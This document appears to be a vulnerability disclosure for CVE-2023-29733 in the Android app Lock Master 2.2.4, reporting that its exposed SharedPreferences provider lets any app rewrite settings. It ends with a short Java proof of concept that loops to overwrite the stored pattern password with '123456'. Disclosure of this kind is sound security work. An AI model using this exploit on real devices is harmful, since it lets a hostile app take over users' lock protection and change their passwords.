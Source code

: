 ## Escalation of Privileges exists in Lock Master（CVE-2023-29733）

Vendor：DUALSPACE(http://www.dualspace.com/pc/en/products.html)

Affected product：Lock Master (com.ludashi.superlock) 

Version：2.2.4

Download link：https://app-lock-master.en.uptodown.com/android/download

Description of the vulnerability for use in the CVE：The Lock Master app 2.2.4 for Android allows unauthorized apps to modify the values in its SharedPreference files. These files hold data that affects many app functions. Malicious modifications by unauthorized apps can cause security issues, such as functionality manipulation, resulting in a severe escalation of privilege attack.

Additional information：Lock Master is a security app, which can block access to user's apps or files with lock patterns. Lock Master stores user-set PIN and pattern passwords, as well as important settings (such as the name of the app package that the user chooses to lock), in the SharedPreferences file. The file is loaded when the app is initialized and performs the corresponding operations. However, if a malicious application tampers with the data in the SharedPreferences file, it can control the relevant functions of the app, causing serious security consequences such as changing the user's password and arbitrarily specifying the application to be locked.

poc：

```java
ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
Uri uri = Uri.parse("content://com.ludashi.superlock.main.SharedPrefProvider");  
ContentValues contentValues = new ContentValues();
while(true){
  contentValues.put("file_name","lock_config.xml");
	contentValues.put("type",4);
	contentValues.put("key","key_pattern_pwd");
	contentValues.put("value","123456");
	contentResolver.update(uri, contentValues,null,null);
}
```



